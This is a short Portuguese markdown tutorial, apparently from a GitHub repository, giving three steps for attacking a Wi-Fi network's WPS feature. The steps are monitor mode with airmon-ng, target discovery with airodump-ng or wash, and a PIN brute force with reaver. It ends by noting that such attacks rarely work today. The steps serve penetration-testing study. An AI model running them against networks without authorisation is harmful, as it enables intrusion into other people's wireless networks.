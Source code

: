 ## Atacando WPS

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo, para o wps adicione a flag --wps

 ``` airodump-ng <interface> --wps ```
 
Ou também você pode usar a tool wash

 ``` wash -i <interface> ```


#### 3° passo:

Realizar um brute force no wps com a tool reaver

 ``` reaver -i <interface> -b BSSIDAP -c CHANNEL -vv --no-nacks ```
 
Obs: os ataques ao wps hoje em dia não são efetivos por causa de várias proteções que foram adicionadas, como bloqueio por tentativas erradas do PIN ou ate mesmo uma proteção emx que o wps ja vem desativado por padrão. Mas também existem outros tipos de ataques ao wps ...

